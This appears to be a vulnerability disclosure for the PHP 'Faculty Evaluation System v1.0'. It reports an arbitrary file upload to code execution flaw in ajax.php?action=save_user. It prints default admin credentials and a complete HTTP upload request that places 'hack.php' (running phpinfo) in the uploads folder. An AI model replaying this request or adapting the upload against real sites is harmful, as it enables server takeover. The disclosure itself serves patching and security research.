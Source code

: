 # Faculty Evaluation System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: 戚吴祺，田志宏，广州大学

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin@admin.com/admin123 (Super Admin account)

Vulnerability url: ip/eval/ajax.php?action=save_user

Loophole location: Faculty Evaluation System's "/eval/ajax.php?action=save_user" file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /eval/ajax.php?action=save_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=edit_user&id=1
Content-Length: 818
Content-Type: multipart/form-data; boundary=---------------------------1037163726497
Cookie: PHPSESSID=qm3tmf7esa9t4jsgeln6vna57r
Connection: close

-----------------------------1037163726497
Content-Disposition: form-data; name="id"

1
-----------------------------1037163726497
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------1037163726497
Content-Disposition: form-data; name="lastname"

a
-----------------------------1037163726497
Content-Disposition: form-data; name="img"; filename="hack.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------1037163726497
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------1037163726497
Content-Disposition: form-data; name="password"


-----------------------------1037163726497
Content-Disposition: form-data; name="cpass"


-----------------------------1037163726497--
```


The files will be uploaded to this directory \eval\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/235872023-d853de72-5f23-48a0-9651-bc20dc09e2f4.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/235872093-f56e962b-abde-4332-ac40-7efb971646ce.png)

